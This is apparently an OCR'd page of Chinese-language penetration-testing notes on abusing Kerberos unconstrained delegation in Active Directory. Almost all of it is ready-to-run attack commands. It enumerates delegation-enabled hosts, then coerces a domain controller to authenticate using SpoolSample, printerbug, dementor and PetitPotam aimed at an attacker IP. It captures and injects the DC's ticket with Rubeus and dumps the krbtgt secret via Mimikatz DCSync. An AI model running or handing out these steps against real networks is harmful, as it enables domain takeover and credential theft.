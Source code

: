 	用户发送一个 TGS 和他们的 TGT 来访问服务，然后服务可以使用用户的 TGT 为用户请求一个 TGS 到任何其他服务并模拟用户
 ### 无约束委派的SpoolService
  	目标是使用计算机帐户和 SpoolService 错误获得 DC 同步权限
	要求：
	具有属性的对象信任此计算机以委托给任何服务（仅限 Kerberos）
	必须有ADS_UF_TRUSTED_FOR_DELEGATION
	不得有ADS_UF_NOT_DELEGATED标志
	用户不得在受保护的用户组中
	用户不能有标志帐户是敏感的，不能被委派
	寻找委派
	域控制器通常启用无约束委派。检查TrustedForDelegation
	https://github.com/samratashok/ADModule
	PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
	https://github.com/dirkjanm/ldapdomaindump
	$> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
	grep TRUSTED_FOR_DELEGATION domain_computers.grep
	https://github.com/byt3bl33d3r/CrackMapExec/wiki
	>cme ldap 10.10.10.10 -u username -p password --trusted-for-delegation
	SpoolService 状态
	>ls \\dc01\pipe\spoolss
	>python rpcdump.py DOMAIN/user:password@10.10.10.10
	使用 Rubeus 进行监控
	监控来自 Rubeus 的传入连接。
	>Rubeus.exe monitor /interval:1 
	强制从 DC 重新连接
	由于无约束委托，计算机帐户（DC$）的 TGT 将保存在无约束委托计算机的内存中。默认情况下，域控制器计算机帐户对域对象具有 DCSync 权限。
	SpoolSample 是一种 PoC，用于强制 Windows 主机使用 MS-RPRN RPC 接口中的“功能”对任意服务器进行身份验证。
	https://github.com/leechristensen/SpoolSample
	>.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
	>.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
	DC01.HACKER.LAB 是我们要攻破的域控制器
	HELPDESK.HACKER.LAB 是我们控制的启用委派的机器。
	https://github.com/dirkjanm/krbrelayx
	>printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>
	https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
	>python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
	加载票据
	从 Rubeus 输出中提取 base64 TGT 并将其加载到我们当前的会话中。
	>.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
	或者使用 Mimikatz 抢票： mimikatz # sekurlsa::tickets
	然后你可以使用 DCsync 或其他攻击：mimikatz # lsadump::dcsync /user:HACKER\krbtgt
 ### 无约束委派的MS-EFSRPC滥用
  	使用PetitPotam来强制从目标机器进行回调
	>git clone https://github.com/topotam/PetitPotam
	>python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
	>python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
	导出票据
	>.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
